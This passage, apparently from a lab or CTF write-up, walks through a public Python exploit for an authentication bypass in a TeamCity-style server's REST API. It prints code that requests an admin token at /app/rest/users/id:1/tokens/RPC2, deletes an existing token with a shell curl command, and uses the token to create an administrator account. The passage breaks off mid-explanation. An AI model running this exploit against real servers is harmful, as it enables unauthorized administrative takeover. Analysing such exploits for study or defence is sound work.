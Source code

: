 
```python
args = parser.parse_args()

url = args.url

if url.startswith("https://"):
    curl_command = "curl -k"
else:
    curl_command = "curl"
```

Then, it makes a POST request to /app/rest/users/id:1/tokens/RPC2 and it handles when the response status code is 200, 404 or 400. In case its 200, it creates a variable named `token`. If its 404 or 400, it does the same (I don't know why the exploit creator repeats the code instead of putting `elif status_code == 400 or status_code == 404`), it deletes the token by using the same url with the DELETE http method:

```python
get_token_url = f"{url}/app/rest/users/id:1/tokens/RPC2"
delete_token_url = f"{url}/app/rest/users/id:1/tokens/RPC2"
create_user_url = f"{url}/app/rest/users"

create_user_command = ""
token = ""

response = requests.post(get_token_url, verify=False)
if response.status_code == 200:
    match = re.search(r'value="([^"]+)"', response.text)
    if match:
        token = match.group(1)
        print(f"Token: {token}") 
    else:
        print("Token not found in the response")

elif response.status_code == 404:
    print("Token already exists")
    delete_command = f'{curl_command} -X DELETE {delete_token_url}'
    delete_process = subprocess.Popen(delete_command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    delete_process.wait()
    delete_output = delete_process.communicate()
    if delete_process.returncode == 0:
        print("Previous token deleted successfully\nrun this command again for creating new token & admin user.")
    else:
        print("Failed to delete the previous token")
elif response.status_code == 400:
    print("Token already exists")
    delete_command = f'{curl_command} -X DELETE {delete_token_url}'
    delete_process = subprocess.Popen(delete_command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    delete_process.wait()
    delete_output = delete_process.communicate()
    if delete_process.returncode == 0:
        print("Previous token deleted successfully\nrun this command again for creating new token & admin user.")
    else:
        print("Failed to delete the previous token")
else:
    print("Failed to get a token")
```

Then if the variable token exists, it creates a admin user with the acquired token in an "Authorization: Bearer" header using an API and sending as json (`requests.post(create_user_url, headers=headers, json=data)`) the username, password, email and roles (the ones required to be admin):
